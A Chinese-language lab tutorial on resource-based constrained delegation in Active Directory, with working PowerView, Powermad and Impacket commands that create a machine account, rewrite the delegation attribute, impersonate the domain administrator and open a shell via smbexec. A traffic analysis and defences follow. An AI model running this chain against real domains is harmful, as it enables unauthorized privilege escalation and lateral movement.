






# 基于资源的约束性委派(RBCD)

前面两篇文章讲的[非约束性委派]()和[约束性委派]()都需要有管理员权限。因此微软在Windows server 2012引入了基于资源的约束性委派，它不需要管理员权限去设置，而是把设置属性权限交给了机器本身

# 约束性委派和RBCD的区别

如果都是通过委派从服务A模拟用户访问服务B。在约束性委派相当于是正向委派，由服务A通过设置msDS-AllowedToDelegateTo属性的值为服务B，来使A能模仿用户访问服务B。
RBCD则是反向委派的，不需要设置服务A的msDS-AllowedToDelegateTo属性的值，而需要在服务B上设置msds-allowedtoactonbehalfofotheridentity属性值为服务A的SID

# 漏洞利用条件

1. 拥有一个域用户凭据，域用户可以创建机器账户(最多只能创建10个)，而机器账户可以当作服务账户使用，所以拥有一个域用户凭据就相当于控制了一个服务A
2. 具有修改服务B的msds-allowedtoactonbehalfofotheridentity属性权限，即需要用户对目标机器有写入属性的权限，机器账户自身和创建机器账户(如把主机加入到域中的用户)的用户即拥有该权限


# 实验环境

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN2012R203 ( 10.0.0.137 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 普通域用户: hack
- 域: xie.com

使用`hack`用户将`WIN2012R203`主机加入域，`hack`就会拥有对`WIN2012R203`主机的`msds-allowedtoactonbehalfofotheridentity`属性修改权限。此外也可以通过以下方式使`hack`拥有对`WIN2012R203`属性写入的权限，`All`即`GenericAll(所有权限)`

```powershell
Add-DomainObjectAcl -TargetIdentity "CN=WIN2012R203,CN=Computers,DC=xie,DC=com" -PrincipalIdentity hack -Rights All -Verbose
```

# 攻击复现

假设现在已经获取了域内WIN7主机xie\hack域用户，现在需要横向到WIN2012R203主机，通过下面的脚本看到当前，可以看到`hack`用户对[User-Account-Restrictions](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions#windows-server-2012)具有`WriteProperty`写入权限，而`User-Account-Restrictions`里面包括了`msds-allowedtoactonbehalfofotheridentity`属性，所以hack用户可以对WIN2012R203进行基于资源的约束性委派攻击
```powershell
Import-Module .\PowerView.ps1
$AttackerSID = Get-DomainUser hack -Properties objectsid | Select -Expand objectsid
$ACE = Get-DomainObjectACL "WIN2012R203.xie.com" -ResolveGUIDs | ?{$_.SecurityIdentifier -match $AttackerSID}
$ACE | Select-Object ObjectAceType,ActiveDirectoryRights

#ObjectAceType                           ActiveDirectoryRights
#-------------                          ---------------------
#User-Logon                             WriteProperty
#Description                            WriteProperty
#Display-Name                           WriteProperty
#SAM-Account-Name                       WriteProperty
#DNS-Host-Name-Attributes               Self
#Validated-SPN                          Self
#User-Account-Restrictions              WriteProperty
#                                       ExtendedRight, GenericRead
```

此外[ActiveDirectoryRights](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=net-8.0#fields)查询结果如果是`GenericAll`,`WriteProperty`,`GenericWrite`也是可以的，如下

```
BinaryLength          : 36
AuditFlags            : None
InheritanceFlags      : None
PropagationFlags      : None
AceFlags              : None
AccessMask            : 32
AceType               : AccessAllowed
ObjectSID             : S-1-5-21-2255574704-2553525763-2083768959-1114
SecurityIdentifier    : S-1-5-21-2255574704-2553525763-2083768959-1119
IsCallback            : False
ObjectDN              : CN=WIN2012R203,CN=Computers,DC=xie,DC=com
AceQualifier          : AccessAllowed
IsInherited           : False
ActiveDirectoryRights : WriteProperty
OpaqueLength          : 0
```

以沦陷的`WIN7`主机，通过以下方式创建一个机器账户`machine`，这样就得到了一个服务A

```powershell
Import-Module Powermad.ps1
New-MachineAccount -MachineAccount machine -Password $(ConvertTo-SecureString "Abcd@1234" -AsPlainText -Force)
```

用`hack`用户权限修改`WIN2012R203`主机的`msds-allowedtoactonbehalfofotheridentity`属性为`machine`的`SID`，即服务A
```powershell
Import-Module PowerView.ps1
$IdentitySID = Get-DomainComputer | Where-Object { $_.name -eq "machine" } | Select-Object -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($IdentitySID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer "WIN2012R203.xie.com" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
#检查是否修改成功
Get-DomainComputer WIN2012R203 -Properties msds-allowedtoactonbehalfofotheridentity
```

接下来就可以在攻击机进行以下操作

```bash
echo "10.0.0.137 WIN2012R203.xie.com" | sudo tee -a /etc/hosts
python getST.py -dc-ip WIN-HSTT0ETJU78.xie.com xie.com/machine$:Abcd@1234 -spn cifs/WIN2012R203.xie.com -impersonate administrator
export KRB5CCNAME=administrator.ccache
python smbexec.py -no-pass -k WIN2012R203.xie.com
```

# 攻击流量分析

全程涉及6个包


第一个包是`machine$`向KDC认证身份申请可转发的TGT



第二个包是KDC返回TGT



第三个包是以machine服务账户代表administrator用户向KDC申请访问自身服务的ST



第四个包是KDC返回不可转发的ST，但是基于资源的约束性委派S4u2Self返回的ST即使不可转发也能转给S4u2Proxy使用



第五个包是machine$拿上一步获得的ST向KDC申请WIN2012R203主机的cifs服务的ST



第六个包是KDC返回访问WIN2012R203主机的cifs服务的可转发ST



# 委派防御

- 高权限用户不能被委派
- 主机账户需要设置委派时，只能设置约束性委派
- 可以将需要保护的账户添加到Protected Users组当中

# 参考
- <https://github.com/Kevin-Robertson/Powermad.git>
- <https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions#windows-server-2012>